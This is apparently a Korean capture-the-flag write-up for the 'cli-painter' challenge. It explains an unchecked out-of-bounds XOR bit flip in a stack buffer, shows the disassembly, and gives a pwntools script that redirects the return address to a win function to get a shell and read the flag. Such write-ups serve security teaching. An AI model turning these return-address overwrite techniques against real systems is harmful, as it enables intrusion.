 # cli-painter

# Usage

# Concept
- oob

# Writeup
```
$ ./main
◎░▓▓▓░░░░░░░░░░░░░░░▓▓▓░░
░░▓▓▓░░░░░░░░░░░░░░░▓▓▓░░
░░▓▓▓░░░░░░░░░░░░░░░▓▓▓░░
░░▓▓▓░░░░░░░░░░░░░░░▓▓▓░░
░░▓▓▓░▓▓▓▓▓▓▓▓▓▓▓▓▓░▓▓▓░░
░░▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░░
░░▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░
░░▓▓▓▓▓░░░░░░░░░░░░▓▓▓▓▓░
░▓▓▓▓▓░░░░░░░░░░░░░░▓▓▓▓░
░▓▓▓▓░░░░░░░░░░░░░░░▓▓▓░░
░▓▓▓▓░░░░░░░░░░░░░░░▓▓▓░░
░▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░░
░▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░░
░░▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░░
░░▓▓▓▓▓▓░░░░░░░░░░░░▓▓▓░░
░░▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░▓▓▓░░
░░▓▓▓░▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░░
░░▓▓▓░░▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░
░░▓▓▓░░░░░░░░░░░░░░▓▓▓▓▓░
░░▓▓▓░░░░░░░░░░░░░░░▓▓▓▓░
░░▓▓▓░░░░░░░░░░░░░░▓▓▓▓▓░
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░░
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░░
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓░▓▓▓░░
░░▓▓▓░░░░░░░░░░░░░░░▓▓▓░░
```

문제를 실행하면, 위와같은 hspace 아스키 아트가 뜬다. 사용자는 w,a,s,d 를 통해 골뱅이모양 커서를 이동시킬 수 있고, 스페이스바를 눌러 현재 커서의 위치에 있는 블록모양을 바꿀 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  game();
  return 0;
}
```

main 함수에서 game 함수를 호출한다. init 함수는 아무 동작도 하지 않는 빈 함수다.

```c
void __fastcall game(__int64 a1, __int64 a2, __int64 a3, __int64 a4, __int64 a5, __int64 a6)
{
  __int8 v6[72]; // [rsp+0h] [rbp-70h] BYREF
  int v7; // [rsp+48h] [rbp-28h]
  __int16 v8; // [rsp+4Ch] [rbp-24h]
  char v9; // [rsp+4Eh] [rbp-22h]
  int idx; // [rsp+5Ch] [rbp-14h]
  char v11; // [rsp+63h] [rbp-Dh]
  int v12; // [rsp+64h] [rbp-Ch]
  int v13; // [rsp+68h] [rbp-8h]
  int v14; // [rsp+6Ch] [rbp-4h]
    // ***** [1] *****
  *v6 = 0x70E0003870001CLL;
  *&v6[8] = 0x877FFDC38000E1C0LL;
  *&v6[16] = 0x3E3FFFFF0FFFFFLL;
  *&v6[24] = 0x78E0003CF0003E7CLL;
  *&v6[32] = 0xFFFFE3FFFFF1C000LL;
  *&v6[40] = 0xFE1C003F0FFFFF87LL;
  *&v6[48] = 0xFFFF387FFFDC3BFFLL;
  *&v6[56] = 0x1C78000E3E00071LL;
  *&v6[64] = 0x9FFFFFCFFFFFEF80LL;
  v7 = 473694207;
  v8 = 28672;
  ...
  enableRawMode();
  printGrid(v6, 0, 0);
  v12 = 0;
  // ***** [2] *****
  while ( 1 )
  {
    v11 = getchar();
    idx = 25 * v13 + v14;
    if ( v11 == 32 )
    {
      v6[idx / 8] ^= 1 << (idx & 7);
      goto LABEL_13;
    }
    if ( v11 >= 32 && v11 <= 119 && v11 >= 97 )
    {
      switch ( v11 )
      {
        case 'a':
          --v14;
          break;
        case 'd':
          ++v14;
          break;
        case 'q':
          disableRawMode();
          v12 = 1;
          break;
        case 's':
          ++v13;
          break;
        case 'w':
          --v13;
          break;
        default:
          continue;
      }
LABEL_13:
      printf("\x1B[H\x1B[J");
      printGrid(v6, v14, v13);
      if ( v12 )
        break;
    }
  }
}
```
맨 처음, `[1]` 부분에서 맵 데이터값을 배열에 넣는다. 이 값들은 출제자가 직접 아스키 아트로 그린 hspace 로고다.
`[2]` 부분에서 반복문을 돌려 입력을 받은 뒤, 입력값에 따라 v14, v13 값을 업데이트한다.
입력값이 공백일 경우, 25 * v13 * v14 값을 인덱스 변수에 넣은 뒤, 나누기 8 한 값을 행(바이트)으로, 나머지 8 한 값을 열(비트)로 v6 변수에 접근해 해당 위치의 비트를 1과 xor 시킨다.
q 를 누를경우 반복문을 벗어난다. 이 때, 인덱스 값에 대한 검증이 없기에 oob xor 기능을 이용하여 스택에 있는 값들을 원하는대로 수정할 수 있다.

```c
  __int8 v6[72]; // [rsp+0h] [rbp-70h] BYREF
```
map 역할을 하는 v6 변수의 위치는 `rbp-0x70` 에 위치하고, 리턴주소는 `rbp+8` 에 위치한다, 리턴주소까지의 거리는 0x78 이므로
s 를 40번, a 를 40번 입력한다면 25 * 40 - 40 == 120 ( 0x78 ) 위치로 커서를 옮길 수 있다.

```
gef➤  disas win
Dump of assembler code for function win:
   0x00000000000015b6 <+0>:	endbr64
   0x00000000000015ba <+4>:	push   rbp
   0x00000000000015bb <+5>:	mov    rbp,rsp
   0x00000000000015be <+8>:	lea    rax,[rip+0xaaf]        # 0x2074
   0x00000000000015c5 <+15>:	mov    rdi,rax
   0x00000000000015c8 <+18>:	call   0x10c0 <system@plt>
   0x00000000000015cd <+23>:	nop
   0x00000000000015ce <+24>:	pop    rbp
   0x00000000000015cf <+25>:	ret
gef➤  disas main
Dump of assembler code for function main:
   0x00000000000015d0 <+0>:	endbr64
   0x00000000000015d4 <+4>:	push   rbp
   0x00000000000015d5 <+5>:	mov    rbp,rsp
   0x00000000000015d8 <+8>:	mov    eax,0x0
   0x00000000000015dd <+13>:	call   0x1209 <init>
   0x00000000000015e2 <+18>:	mov    eax,0x0
   0x00000000000015e7 <+23>:	call   0x13d3 <game>
   0x00000000000015ec <+28>:	mov    eax,0x0
   0x00000000000015f1 <+33>:	pop    rbp
   0x00000000000015f2 <+34>:	ret
End of assembler dump.
gef➤
```
v6 변수가 위치한 game 함수의 리턴주소는 0x15ec 이고, win 함수의 주소는 0x15b6 이다. 하지만 win 함수로 리턴주소를 변조해 호출해보면 stack align 에러가 나서 터지는걸 볼 수 있다. 그래서 push rbp 이후인 0x15bb 로 리턴해줘야한다.
`0x15ec ^ 0x15bb == 0b1010111` (87) 이므로, 리턴 주소까지 커서를 움직인 뒤, ` d d dd dd q` 를 차례대로 입력해 87과 xor 하면 리턴주소가 win+4 으로 조작되고 반복문이 종료되어 쉘을 획득할 수 있다. 아래는 익스파일이다.

```python
from pwn import *

r = remote("localhost",39393)

payload = b"s"*40 + b"a"*40
payload += b" d d dd dd "
payload += b"q"
payload = payload
r.recv()
r.send(payload)
r.recvline()

r.interactive()
```
쉘이 실행되고, tty 설정때문에 단순 쉘 명령어 실행결과가 보이지않을 수 있다.
`stty raw -echo` 명령어를 입력해 정상적으로 명령어 실행결과를 볼 수 있다.
`cat /home/cli-painter/flag.txt` 명령어를 실행하면 플래그를 얻을 수 있다.